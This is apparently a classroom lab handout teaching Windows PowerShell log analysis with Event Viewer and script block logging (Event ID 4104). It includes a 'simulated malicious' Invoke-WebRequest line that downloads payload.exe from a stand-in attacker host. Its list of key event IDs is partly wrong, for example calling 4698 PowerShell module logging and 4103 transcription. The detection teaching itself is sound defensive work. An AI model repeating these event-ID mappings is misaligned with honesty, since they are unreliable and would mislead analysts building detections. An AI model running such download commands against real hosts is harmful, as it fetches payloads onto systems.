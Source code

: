 # **Lab#3: Log Analysis Basics: Windows PowerShell Logs**

## **Objective:**
The objective of this lab is to introduce students to **Windows PowerShell Logs** and help them understand how to analyze PowerShell-related events. Students will learn how to explore and analyze PowerShell logs to detect suspicious or malicious PowerShell commands that could indicate an attack or compromise.

---

## **Lab Setup**
### **Requirements:**
- **System:** Windows 10/11 or Windows Server 2019/2022
- **Tools:**
  - **Windows Event Viewer** (pre-installed)
  - **PowerShell (Pre-installed on Windows)**
  - **Administrative Privileges** (required for enabling logs)

---

## **Preparation:**
In this lab, you will explore and analyze **Windows PowerShell Logs** in the **Event Viewer**. These logs record events related to PowerShell execution, such as the running of scripts, command usage, and potential malicious activities.

### **On Windows:**
1. Press `Win + R` and type `eventvwr.msc` to open the **Event Viewer**.
2. In the **Event Viewer**, expand the **Applications and Services Logs** section and navigate to:
`Microsoft → Windows → PowerShell → Operational`

3. You should now be able to see logs related to PowerShell activities.

---

## **What are Windows PowerShell Logs?**
PowerShell logs contain information about PowerShell script executions, including details about the commands that were run, the processes that invoked them, and the user who executed them. These logs can be used to detect potential misuse of PowerShell, including post-exploitation techniques often used by attackers.

### **Key PowerShell Logs to Monitor:**
- **Event ID 4104**: Script block logging, capturing the PowerShell commands executed.
- **Event ID 4103**: Transcription logs for all PowerShell sessions.
- **Event ID 4698**: PowerShell Module Logging for the execution of specific modules.
- **Event ID 4101**: Execution of PowerShell commands through command-line arguments.

---

## **Lab Task: Explore and Analyze Windows PowerShell Logs**

### **Step 1: Enable PowerShell Script Block Logging**
Before proceeding, make sure PowerShell script block logging is enabled on your system:

1. Press `Win + R`, type `gpedit.msc`, and press Enter to open the **Group Policy Editor**.
2. Navigate to:
`Computer Configuration > Administrative Templates > Windows Components > Windows PowerShell`
3. Turn on **Module Logging**, **Script Block Logging**, and **Script Execution**.
4. Apply the settings and close the Group Policy Editor.

### **Step 2: Generate PowerShell Logs**
1. Open **PowerShell** as Administrator.
2. Run the following PowerShell command to generate a log entry:
```powershell
Get-LocalUser | Select-Object Name, Enabled
```
This command will list the local users on your system, which attackers might use to gather information during post-exploitation.

3. After running the command, go back to Event Viewer and navigate to:

`Applications and Services Logs → Microsoft → Windows → PowerShell → Operational`

4. Look for Event ID 4104 in the logs (this will show script block logging for the PowerShell command you executed).
5. Take a screenshot of the event details, including:
 - PowerShell command that was executed
 - User who ran the command
 - Timestamp of the execution

### **Step 3: Simulate Malicious PowerShell Command**
1. Open PowerShell and run the following suspicious command that might be used by an attacker:

```
Invoke-WebRequest -Uri "http://maliciouswebsite.com/payload.exe" -OutFile "C:\temp\payload.exe"`
```
This command simulates downloading a malicious payload from a remote server.    
2. Go back to Event Viewer and filter the PowerShell logs for Event ID 4104.     
3. Check for any suspicious activity or abnormal PowerShell command execution, specifically focusing on the `Invoke-WebRequest` or any network-based PowerShell command.    
4. Take a screenshot of the event details.     

### **Step 4: Analyze Suspicious PowerShell Logs**
- Hunt for suspicious script executions from unknown sources or non-standard paths.
- Correlate user activity with system behavior like file downloads or binary execution.
- Inspect Event ID 4104 for odd commands, encoded scripts, or known attack patterns.

## Conclusion:
- PowerShell Logs: Key to spotting malicious command usage.
- SOC Analyst Role: Review logs to detect post-exploitation actions.
- Threat Detection: Flags abnormal activity for faster response.

## Submission:
- Event ID 4104 (PowerShell Script Execution): Submit a screenshot showing a PowerShell script execution event from the logs.
- Malicious PowerShell Command: Submit a screenshot showing the execution of a suspicious or malicious PowerShell command.
